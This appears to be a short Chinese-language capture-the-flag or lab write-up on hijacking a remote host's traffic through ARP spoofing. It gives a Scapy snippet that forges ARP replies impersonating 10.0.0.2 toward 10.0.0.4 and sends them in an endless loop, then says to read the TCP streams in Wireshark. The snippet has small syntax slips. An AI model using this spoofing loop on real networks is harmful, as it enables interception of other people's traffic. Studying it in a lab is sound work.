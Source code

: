 # 挑战简介
Hijack traffic from a remote host using ARP

# 思路
#用ARP劫持主机流量包  
#思路是不断发送ARP响应，确保ARP缓存保持被劫持状态，因此我们持续send  

arp的设置：  
```
arp_response = ARP(
    op="is-at",        # ARP 响应 (is-at)
    psrc="10.0.0.2",   # 伪装成 10.0.0.2
    pdst="10.0.0.4",   # 欺骗 10.0.0.4
    hwdst="ff:ff:ff:ff:ff:ff"  # 广播给所有主机，或直接指定 10.0.0.4 的 MAC
    hwsrc="your mac";
)
```
send的持续发送  
```
while True: send(arp_response)
```
*别忘了用wireshark解析数据包，解析TCP Stream
